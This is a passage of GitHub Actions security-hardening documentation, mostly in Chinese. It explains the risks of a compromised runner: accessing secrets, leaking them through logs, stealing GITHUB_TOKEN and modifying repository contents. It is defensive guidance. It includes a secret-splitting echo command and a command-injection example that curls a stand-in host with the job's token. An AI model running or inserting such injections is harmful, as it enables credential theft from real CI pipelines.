 {% ifversion fpt or ghes > 3.3 or ghae-issue-4757 %}
## Reusing third-party workflows

The same principles described above for using third-party actions also apply to using third-party workflows. You can help mitigate the risks associated with reusing workflows by following the same good practices outlined above. For more information, see "[Reusing workflows](/actions/learn-github-actions/reusing-workflows)."
{% endif %}

## 受损运行器的潜在影响

这些部分考虑了当攻击者能够对 {% data variables.product.prodname_actions %} 运行器运行恶意命令时可以采取的一些步骤。

### 访问密钥

使用 `pull_request` 事件触发的工作流程具有只读权限，不能访问密钥。 但是，这些权限因各种事件触发因素（如 `issue_comment`、`issues` 和 `push`）而有所不同，攻击者可能试图窃取仓库机密或使用作业 [`GITHUB_TOKEN`](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token) 的写入权限。

- 如果密钥或令牌设置为环境变量，它可以使用 `printenv` 通过环境直接访问。
- 如果在表达式中直接使用密钥，生成的 shell 脚本将存储在磁盘上，并且可以访问。
- 对于自定义操作，风险可能因程序如何使用从参数中获取的密钥而异：

  {% raw %}
  ```
  uses: fakeaction/publish@v3
  with:
      key: ${{ secrets.PUBLISH_KEY }}
  ```
  {% endraw %}

虽然 {% data variables.product.prodname_actions %} 会从工作流程（或包含的操作）中未引用的内存中清除密钥，但 `GITHUB_TOKEN` 和任何引用的密钥均可被坚定的攻击者获取。

### 泄露运行器中的数据

攻击者可以从运行器泄露任何被盗的密钥或其他数据。 为了帮助防止意外的密钥泄露，{% data variables.product.prodname_actions %} [自动编辑打印到日志的密钥](/actions/reference/encrypted-secrets#accessing-your-secrets)，但这不是一个真正的安全边界，因为密钥可以故意发送到日志。 例如，可使用 `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};` 来解析混淆的密钥。 此外，由于攻击者可能运行任意命令，他们可以使用 HTTP 请求将机密或其他仓库数据发送到外部服务器。

### 窃取作业的 `GITHUB_TOKEN`

攻击者有可能窃取作业的 `GITHUB_TOKEN`。 {% data variables.product.prodname_actions %} 运行器自动接收生成的 `GITHUB_TOKEN`，权限仅限于包含工作流程的仓库，令牌在作业完成后过期。 一旦过期，令牌对攻击者不再有用。 为了解决此限制，他们可以通过调用带有令牌的攻击者控制的服务器（例如：`a"; set +e; curl http://example.lab?token=$GITHUB_TOKEN;#`）来自动执行攻击并在几分之一秒内完成攻击。

### 修改仓库的内容

如果 `GITHUB_TOKEN` [的指定权限不受限制](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token)，攻击者服务器可以使用 {% data variables.product.prodname_dotcom %} API 来 [修改仓库内容](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token)，包括版本。
